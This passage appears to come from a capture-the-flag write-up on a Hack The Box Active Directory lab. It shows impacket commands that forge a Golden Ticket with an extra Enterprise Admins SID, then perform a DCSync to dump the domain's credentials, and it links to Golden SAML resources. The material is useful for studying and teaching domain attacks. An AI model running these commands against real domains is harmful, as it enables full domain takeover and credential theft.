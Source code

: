     You can get this using **PowerView**, **BloodHound**, or other tools.
    ![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*hoZTJELc-N4nGEi6-4bwmQ.png)

3. Generate the Golden Ticket using impacket-ticketer
    ```
    impacket-ticketer -aesKey b0eb........................5e8d \
        -domain-sid S-1-5-21-2034262909-2733679486-179904498 \
        -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 \
        -domain corp.ghost.htb  Administrator
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YWuGRzwpxeGksAm5oxBPSA.png)
4. Export the Ticket export `KRB5CCNAME=Administrator.ccache`

5. Perform DCSync on the Domain

    ```bash
    impacket-secretsdump -k -no-pass dc01.ghost.htb -just-dc
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*5zflryWo-GgbyZKTrnro5g.png)
5. Log in to the Domain as Administrator

    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*pcuMxCUi7N0VGpE--XAyEw.png)


## Resources

+ [generate-a-saml-20-token-for-some-app](https://github.com/mandiant/ADFSpoof?tab=readme-ov-file#generate-a-saml-20-token-for-some-app)
+ [adfs-golden-saml](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adfs-federation-services/#adfs-golden-saml)